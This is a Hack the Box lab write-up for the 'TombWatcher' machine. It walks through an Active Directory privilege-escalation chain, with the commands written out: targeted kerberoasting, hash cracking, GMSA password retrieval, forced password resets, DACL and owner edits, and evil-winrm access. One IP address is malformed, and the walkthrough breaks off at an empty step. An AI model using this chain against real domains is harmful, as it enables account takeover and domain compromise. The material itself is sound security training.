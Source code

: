 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred
`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball
`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec
`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.
`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. Using Powershell, we look for all users in the ADCS group, but returns none.
`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/8eff94bc-94ec-48aa-8b0a-1fe221ba5ae6)

14. After considering the title of the box, TombWatcher, we look for deleted objects.
`Get-ADObject -Filter 'ObjectClass -eq "user" -and IsDeleted -eq $True' -IncludeDeletedObjects`

![image](https://github.com/user-attachments/assets/83112f89-da07-42af-ac6f-1d9b82f5faf5)

15. 

